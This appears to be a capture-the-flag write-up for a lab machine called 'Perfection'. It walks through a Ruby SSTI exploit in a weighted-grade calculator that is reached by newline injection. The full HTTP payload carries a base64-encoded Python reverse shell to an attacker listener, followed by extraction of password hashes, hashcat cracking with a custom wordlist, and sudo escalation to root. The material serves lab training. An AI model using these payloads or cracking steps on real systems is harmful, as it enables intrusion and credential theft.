








*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Mon Mar 18 09:38:08 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.253
Nmap scan report for 10.10.11.253
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Mar 18 09:38:54 2024 -- 1 IP address (1 host up) scanned in 46.30 seconds
```

```shell
$ cat nmap_servicesversions.txt
# Nmap 7.94SVN scan initiated Mon Mar 18 09:39:43 2024 as: nmap -p22,80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.253
Nmap scan report for 10.10.11.253
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two open ports: 22 and 80. Let's see webapp at 80 port.


Visiting "About" section, we have managed to find two users: "Tina Smith" web developer and "Susan Miller" sysadmin.


Webapp allows to calculate a weighted grade.



Let's play with "Weighted Grade Calculator" API. Apart from this API, there aren't other entry points. Fuzzing web doesn't bring any good results. We check if API is vulnerable to *command injection*.  After many attempts, we notice that input is sanitized in some way. In some cases, we get the message "Malicious input blocked". It seems that "%0A" character is not blocked. "%0A" is one of the characters used to test command injection payloads.



After a lot of tests with command injection payload where are stucked. We give a look to the forum and we read a *hint*: "*You must calculate 7 times 7 in a new line*". Hint seems very comprensible: it is a newline injection with *Server Side Template Injection*.

From the HTTP "Server" header in the response, we know that the server side uses Ruby. From [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), there is a list of SSTI payloads for each backend framework. We are interested in those for Ruby. Let's try out. Testing one of the payloads confirmed the vulnerability. SSTI allows RCE.



Now it is time to get a shell. We activate *netcat listener* on port 4444. We execute the follow request:

```http
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Type: application/x-www-form-urlencoded

category1=X1&grade1=50&weight1=90&category2=N/A&grade2=0&weight2=0&category3=N/A&grade3=0&weight3=0&category4=N/A&grade4=0&weight4=0&category5=N/A%0A<%25%3d+IO.popen('echo+-n+cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEzIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3d%3d|base64+-d|bash').readlines()++%25>&grade5=50&weight5=10
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.13  netmask 255.255.254.0  destination 10.10.14.13
        inet6 fe80::6577:2945:6c53:4f22  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100b  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...

connect to [10.10.14.13] from (UNKNOWN) [10.10.11.253] 34104
susan@perfection:~/ruby_app$                                                            susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

We are IN.

***user.txt***: 3470838729a4fa53b1d9b68554a82b63



One aspect is very interesting: "susan" user is a *sudoers*. We need to know *susan*'s password to escalate to *root*. In susan's home directory, under "Migration" folder, there is a sqlite3 database. "sqlite3" binary is installed in the machine.

```shell
susan@perfection:~$ ls -l
ls -l
total 12
drwxr-xr-x 2 root root  4096 Oct 27 10:36 Migration
drwxr-xr-x 4 root susan 4096 Oct 27 10:36 ruby_app
-rw-r----- 1 root susan   33 Mar 19 13:33 user.txt
susan@perfection:~$ ls -la Migration
ls -la Migration
total 16
drwxr-xr-x 2 root  root  4096 Oct 27 10:36 .
drwxr-x--- 7 susan susan 4096 Feb 26 09:41 ..
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
susan@perfection:~$ file Migration/pupilpath_credentials.db
file Migration/pupilpath_credentials.db
Migration/pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
susan@perfection:~$ which sqlite3
which sqlite3
/usr/bin/sqlite3
```

The analysis of the database 'pupilpath_credentials.db' is deepened.

```shell
susan@perfection:~/Migration$ sqlite3 -h
sqlite3 -h
sqlite3: Error: unknown option: -h
Use -help for a list of options.
susan@perfection:~/Migration$ sqlite3
sqlite3
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open pupilpath_credentials.db
.open pupilpath_credentials.db
sqlite> .databases
.databases
main: /home/susan/Migration/pupilpath_credentials.db r/o
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

Inside "users" table we are able to found a lot of users with their password. We try to crack them. Unfortunately, hashcat and *rockyou* cant crack them. It's *linpeas* time. Linpeas provides us an indication.



"/var/mail/susan" is owned by root but readable by us.

```shell
susan@perfection:/tmp$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

In the message for Susan, there is specification about new password policy. In the case of Susan, his password should be "susan_nasus_{randomly generated integer between 1 and 1,000,000,000}". Let's built wordlist for cracking his password writing the following Python script:

```python
with open('numbers.txt', 'w') as numbers:
    for i in range(1, 1000000001):
        num = f"susan_nasus_{str(i)}\n"
        if (i % 1000000 == 0):
            print(f"Current: {num}")
        numbers.write(num)
```



```shell
kali@kali:~$ ls -lh numbers.txt
-rwxrwxrwx 1 kali kali 22G Mar 20 11:08 numbers.txt
kali@kali:$ head numbers.txt
susan_nasus_1
susan_nasus_2
susan_nasus_3
susan_nasus_4
susan_nasus_5
susan_nasus_6
susan_nasus_7
susan_nasus_8
susan_nasus_9
susan_nasus_10
kali@kali:$ tail numbers.txt
susan_nasus_999999991
susan_nasus_999999992
susan_nasus_999999993
susan_nasus_999999994
susan_nasus_999999995
susan_nasus_999999996
susan_nasus_999999997
susan_nasus_999999998
susan_nasus_999999999
susan_nasus_1000000000
```

Hash of password is 64 characters long so it seems to be an SHA256 hash.

```shell
kali@kali:$ cat susan.txt | wc -c
65
```

We can use hashcat with 1400 mode to crack hash.

```shell
kali@kali:$ hashcat -m 1400 susan.txt numbers.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
```



Susan's password is "susan_nasus_413759210". Let's try out.

```shell
susan@perfection:/tmp$ sudo su
sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/tmp# whoami
whoami
root
```

It works perfectly.

***root.txt***: 5e6ca082471f15ef10cc3eb7a6e35195


